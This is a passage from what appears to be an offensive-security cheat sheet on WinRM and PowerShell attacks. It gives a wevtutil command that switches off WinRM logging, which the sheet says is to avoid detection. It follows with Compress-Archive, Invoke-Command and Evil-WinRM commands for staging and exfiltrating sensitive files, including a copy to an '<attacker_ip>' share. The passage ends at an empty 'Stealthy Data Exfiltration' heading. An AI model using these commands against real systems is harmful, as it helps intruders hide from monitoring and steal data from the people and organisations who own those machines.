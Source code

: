 *   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    wevtutil.exe sl Microsoft-Windows-WinRM/Operational /e:false
    ```
* **Description:** Disable logging for the WinRM service to avoid detection by security monitoring systems.

### Data Exfiltration

#### Staging Data for Exfiltration

* **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

```powershell
Compress-Archive -Path "C:\Sensitive\*" -DestinationPath "C:\Temp\archive.zip"
Invoke-Command -ComputerName <target_ip> -ScriptBlock { Copy-Item "C:\Temp\archive.zip" -Destination "\\<attacker_ip>\share" }
```

* **Description:** Compress and stage data on a remote machine before exfiltrating it through a shared resource.

#### Exfiltrating Data via WinRM

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-Content C:\SensitiveData.txt | Out-File -FilePath C:\inetpub\wwwroot\exfiltrated_data.txt -Force }
    ```
* **Description:** Reads sensitive data from the remote machine and saves it locally for exfiltration.

#### Using PowerShell Remoting for Exfiltration

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Copy-Item -Path C:\sensitive_data.txt -Destination C:\Users\Public -Force }
    ```
* **Description:** Copies sensitive data to a publicly accessible location for later retrieval.

#### Exfiltrating Data via Evil-WinRM

*   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> --upload <local_file> <remote_path>
    ```
* **Description:** Upload sensitive data from the target system to a remote location for exfiltration.

#### Stealthy Data Exfiltration
